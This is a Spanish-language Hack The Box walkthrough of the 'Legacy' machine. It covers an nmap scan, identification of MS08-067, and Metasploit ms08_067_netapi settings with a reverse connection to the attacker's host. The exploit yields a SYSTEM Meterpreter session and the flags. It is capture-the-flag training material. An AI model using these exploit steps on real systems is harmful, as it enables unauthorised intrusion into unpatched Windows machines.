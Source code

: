 ----

----
![[35b20e936aa2a3cfe70d8e72f1ef47d9.png]]

### 🧪 Task 1 – ¿Cuántos puertos TCP están abiertos en Legacy?

📸 **Escaneo Nmap**

```bash
sudo nmap -sS -sV -Pn -p- 10.10.10.4
```

📍 Resultado:

![[8c28a48cd79210ff3851ac447b49f8e5.png]]

✅ **Respuesta:** `3`

> Solo están abiertos los puertos 135, 139 y 445, todos relacionados con servicios SMB/RPC.


### 📛 Task 2 – ¿Cuál es el CVE del 2008 que permite ejecución remota en SMB?

🔍 Búsqueda rápida en Google + análisis:

> El CVE más conocido de 2008 para SMB con ejecución remota es **CVE-2008-4250** (vulnerabilidad **MS08-067**).

✅ **Respuesta:** `CVE-2008-4250`

🧠 **Nota técnica:**  
Este fallo permitía ejecución remota al enviar paquetes SMB maliciosos a sistemas Windows XP, 2000 o 2003. Fue uno de los más críticos en su época.

![[04c7caebe912df9878787d47c73fbe46.png]]

### 🧨 Task 3 – ¿Cuál es el módulo de Metasploit que explota CVE-2008-4250?

🧰 En Metasploit:

![[81a865f2e7adcf99d807c099c81c30f4.png]]

📌 Resultado:

![[b5588754efa4684b53518dbcb8212cb1.png]]

✅ **Respuesta:** `ms08_067_netapi`

📝 Descripción:

> Este módulo explota un desbordamiento de búfer en el servicio `netapi32.dll`, permitiendo ejecutar código arbitrario con privilegios de SYSTEM.


🧰 Preparación del módulo en Metasploit

```bash
use exploit/windows/smb/ms08_067_netapi
show options
```

![[c4927bc72bc7f782f07acc7c80c3fbe9.png]]

📍 Configuración:

```bash
set RHOSTS 10.10.10.4
set LHOST 10.10.14.6  # Tu IP tun0
set LPORT 4444
```

💥 Ejecución:

![[d23dcf7f646b94c918dbeb7b1da67b0c.png]]

### 🧑‍💻 Task 4 – ¿Con qué usuario se ejecuta el exploit MS08-067?

🧠 Tras ejecutar el exploit en Metasploit y abrir la sesión Meterpreter, utilizamos el comando:

```bash
getuid
```

📍 Salida:

![[f51b8ac5bfc97b9e65154f7ef59e77b6.png]]

✅ **Respuesta:** `NT AUTHORITY\SYSTEM`

📌 **Significado:**  
El exploit se ejecuta con privilegios **SYSTEM**, el nivel más alto en un sistema Windows (superior incluso al de "Administrator").

🔒 Esto confirma que **no es necesaria escalada de privilegios** en esta máquina, ya que conseguimos directamente control total sobre el sistema.

### 🏁 Task 5 – Localización y captura de flags

#### 🧾 `user.txt`

📁 Ruta:

![[d2f7111b2fc06d8f44612d3b1473e8ba.png]]

#### 🧾 `root.txt`

📁 Ruta:

![[ada37165d53bbe9ef55160f4cc7cf894.png]]

### 🧠 Task 7 – Otra vulnerabilidad RCE en SMB (CVE 2017)

📌 La pregunta completa es:

> Además de MS08-067, el servicio SMB de Legacy también es vulnerable a otra vulnerabilidad de ejecución remota con un CVE de 2017. ¿Cuál es ese ID?

🔗 Exploit-DB:

1. Vamos a [https://www.exploit-db.com](https://www.exploit-db.com)
    
2. En el buscador, pon:

![[14d8e5507e5cd65bc2751973dff7870d.png]]

### 🔍 ¿Por qué `CVE-2017-0143`?

Aunque **CVE-2017-0144** (EternalBlue) es la más famosa, **HTB en esta máquina espera específicamente la primera del paquete MS17-010**, que es:

- **CVE-2017-0143**: Identificada como parte del exploit "EternalSynergy" / "EternalRomance"
    
- Relacionada con ejecución remota en SMBv1
    
- Compatible con sistemas antiguos como Windows XP y 2003 (como en esta máquina)
    

📦 Pertenece al boletín **MS17-010** junto con:

- `CVE-2017-0144` (EternalBlue)
    
- `CVE-2017-0145`, `0146`, `0147`, `0148`...
    

Pero **la más "compatible" con máquinas como Legacy (Windows XP)** es `0143`.

------
### ✅ Conclusión Final

📌 La máquina **Legacy** es un excelente ejemplo para comprender:

- Cómo identificar servicios antiguos (SMB en puertos 139 y 445).
    
- La explotación de **MS08-067** con **Metasploit**, sin necesidad de escalada de privilegios.
    
- La obtención directa de acceso `SYSTEM` y captura de flags.
    

🛠️ **Técnicas empleadas:**

- `nmap` para descubrimiento de puertos.
    
- `msfconsole` con el módulo `ms08_067_netapi`.
    
- Comandos internos de Windows (`cd`, `dir`, `type`) para localizar y visualizar las flags.
